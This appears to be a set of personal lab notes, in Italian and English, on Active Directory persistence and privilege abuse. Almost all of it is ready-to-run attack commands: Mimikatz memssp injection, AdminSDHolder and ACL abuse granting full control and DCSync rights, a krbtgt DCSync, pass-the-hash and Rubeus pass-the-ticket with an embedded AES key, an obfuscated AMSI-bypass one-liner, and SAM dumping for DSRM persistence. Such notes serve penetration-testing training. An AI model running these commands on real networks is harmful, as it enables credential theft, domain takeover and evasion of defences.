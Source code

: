 *tools*
- [samratashok/ADModule: Microsoft signed ActiveDirectory PowerShell module (github.com)](https://github.com/samratashok/ADModule)
- [samratashok/RACE: RACE is a PowerShell module for executing ACL attacks against Windows targets. (github.com)](https://github.com/samratashok/RACE)
- [PowershellMafia/PowerView (github.com)](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### **CUSTOM SSP**
*With MimiKatz*
o uso di mimilib.dll o 
```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```
### **ACLs – AdminSDHolder**
Modifica le acl per aggiungerti il permesso di full control sull'user
*Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA*
```PowerView
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights All -Verbose
```
*Using ActiveDirectory Module and Set-ADACL*
```AD_module
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,D C=local' -Principal student1 -Verbose
```
*Use of race toolkit*
```AD_module
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```


### **ACLs – Right Abuse**
*Add FullControl rights*
Usando powershell
```Powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' - PrincipalSamAccountName student1 -Rights All -Verbose
```
Using ActiveDirectory Module and Set-ADACL
```AD_module
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```
*Add rights for DCSync*
usando powershell
```Powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' - PrincipalSamAccountName student1 -Rights DCSync -Verbose
```
Using ActiveDirectory Module and Set-ADACL
```AD_module
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -GUIDRight DCSync -Verbose
```
Poi avvia DCSync  con mimikatz
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### **DC persistence by abusing the DSRM service.**
Firtsly dump the hashes from the dc
Open a session on the dc
```powershell
. C:\AD\Tools\Invoke-Mimi.ps1
```
```powershell
Invoke-Mimi -Command '"sekurlsa::pth /user:<ADMIN USER> /domain:<DOMAIN> /ntlm:<HASH> /run:cmd.exe"'
```
or using Rubeus
```cmd
C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Launch Invishell e establish the session
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```powershell
$sess = New-PSSession dcorp-dc
```
Bypass the AMSI
```powershell
Enter-PSSession -Session $sess
```
```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
```powershell
exit
```
Load and launch Invoke-Mimi
```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
```
```powershell
Enter-PSSession -Session $sess
```
```powershell
Invoke-Mimi -Command '"token::elevate" "lsadump::sam"'
```